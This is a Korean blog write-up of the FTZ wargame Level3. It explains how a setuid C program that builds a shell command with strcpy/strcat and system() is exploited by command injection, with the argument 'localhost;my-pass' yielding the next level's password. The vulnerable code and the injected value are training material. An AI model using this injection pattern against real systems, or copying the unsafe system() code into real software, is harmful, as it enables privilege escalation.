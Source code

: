 ```yaml
---
layout: post
title: FTZ Level3
categories: [Wargame]
tags: [FTZ]
comments: true
---
```


Level3의 힌트를 보자.

{% highlight c %}
[level3@ftz level3]$ cat hint
다음 코드는 autodig의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
int main(int argc, char **argv){
 
    char cmd[100];
 
    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }
 
    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");
 
    system( cmd );
 
}
 
이를 이용하여 level4의 권한을 얻어라.
 
more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?
{% endhighlight %}

autodig를 사용하라고 한다. `strcpy`와 `strcat`을 이용하여 cmd라는 배열에 최종적으로

```
"dig @'인자로 받은 문자열' version.bind chaos txt"
```

라는 문자열을 만들게 된다. 이 문제에서 dig는 별로 중요하지 않지만 dig는 인자로 받은 주소(네트워크 주소)에 대한 정보를 알려주는 명령어이다.

여기서 중요한 것은 힌트를 보게 되면 동시에 여러 명령어를 사용하려면 인데, 리눅스에서 동시에 여러 명령어를 사용하려면 `;`를 기준으로 사용하면 된다. 우리가 코딩을 할 때 ;을 기준으로 문장을 끝내듯이, 리눅스 명령을 사용할 때에도 ;을 기준점으로 사용하면 된다.

`pwd; cd /; pwd;`을 예시로 사용해 보겠다.


{% highlight bash %}
[level3@ftz level3]$ pwd; cd /; pwd
/home/level3
/
{% endhighlight %}

첫 pwd에 의해서 현재 디렉토리의 위치를 출력해 주고, 가운데 `cd /`에 의해 /디렉토리로 이동됬다. 그 후 마지막 `pwd`에 의해 /의 위치임을 출력하게 되었다. 이렇게 한번의 명령을 보낼 때 `;`을 기준으로 여러 명령을 보낼수 있다.

이점을 이용하여 이번 문제를 해결해 보겠다.

우선 파일의 위치를 검색한다.

{% highlight bash %}
[level3@ftz level3]$ find / -user level4 -perm +6000 2>/dev/null
/bin/autodig
{% endhighlight %}

파일을 실행 할 때 my-pass명령어를 실행 시키도록 하겠다. `;`을 사용하면 되므로, 인자를 `localhost;my-pass`로 주겠다.

```
[level3@ftz level3]$ /bin/autodig localhost;my-pass
; <<>> DiG 9.2.1 <<>> @localhost version.bind chaos txt
;; global options:  printcmd
;; connection timed out; no servers could be reached
 
Level3 Password is "can you fly?".
 ```

Level4의 password가 아닌 Level3의 password를 보여주고 있다. 명령이 제대로 들어가지 않은 것이다. 이 부분에서 hint의 2번째를 생각해야 한다.

문자열의 형태로 보낸다는 것은 우리가 적은 인자는 문자열의 형태가 아닌 ;를 기준으로 끊어 보내게 된다. 그러므로 /bin/autodig localhost라는 문장과 my-pass라는 문장을 끊어서 해석하게 된다.

그렇게 되면 /bin/autodig localhost가 끝나게 되면 my-pass를 실행시키게 되는데, setuid가 걸려있는 프로그램에서 실행시키는 것이 아닌 **현재 터미널**에서 실행시키게 되어 권한은 level3의 권한을 유지하고 있다.

문장을 한번에 보내기 위해서는 `""`를 사용하여 보내고자 하는 부분을 묶어 보내야 한다.

```
[level3@ftz level3]$ /bin/autodig "localhost;my-pass"
; <<>> DiG 9.2.1 <<>> @localhost
;; global options:  printcmd
;; connection timed out; no servers could be reached
 
Level4 Password is "           ".
```

이렇게 ""를 사용하게 되면 원하는 문자열로 보낼 수 있다.
